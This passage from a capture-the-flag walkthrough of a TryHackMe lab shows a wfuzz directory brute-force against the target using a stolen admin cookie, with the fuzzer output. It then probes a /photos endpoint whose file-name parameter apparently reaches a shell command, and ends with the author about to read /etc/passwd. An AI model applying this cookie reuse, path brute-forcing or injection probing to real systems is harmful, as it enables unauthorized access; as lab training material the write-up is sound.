 ## Directory Bruteforce with the admin's cookie
 ```console
local@local:~/Documents/tryhackme/misguided_ghosts$ wfuzz -w wordlists -H 'Cookie: login=<redacted-admin-cookie>' --hc 404 -c https://10.10.8.31:8080/FUZZ
********************************************************
* Wfuzz 3.0.3 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.8.31:8080/FUZZ
Total requests: 7

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                        
===================================================================

000000007:   200        26 L     54 W     629 Ch      "photos"                                                                                                       
000000003:   200        52 L     186 W    1985 Ch     "console"                                                                                                      
000000005:   302        3 L      24 W     227 Ch      "login"                                                                                                        
000000004:   200        47 L     106 W    1516 Ch     "dashboard"                                                                                                    

Total time: 3.347206
Processed Requests: 7
Filtered Requests: 3
Requests/sec.: 2.091296

```
And with admin cookie, we get a new endpoint, ie /photos.

## Checking /photos
![12](/assets/images/thm/misguided_ghosts/12.png)
Looks like we can upload a file. So, lets upload a file.

## Uploading a file
I tried to upload a file that we created earlier called portknock.sh but the file didnot upload and the request made was a GET request with parameter name equal to the filename.
### Request
```html
GET /photos?image=portknock.sh HTTP/1.1
Host: 10.10.8.31:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://10.10.8.31:8080/photos
Cookie: login=<redacted-admin-cookie>
Upgrade-Insecure-Requests: 1
```
### Response
```html
cannot access 'portknock.sh': No such file or directory
```
It is kind of strange how it is implemented. Lets try to access /etc/passwd file.
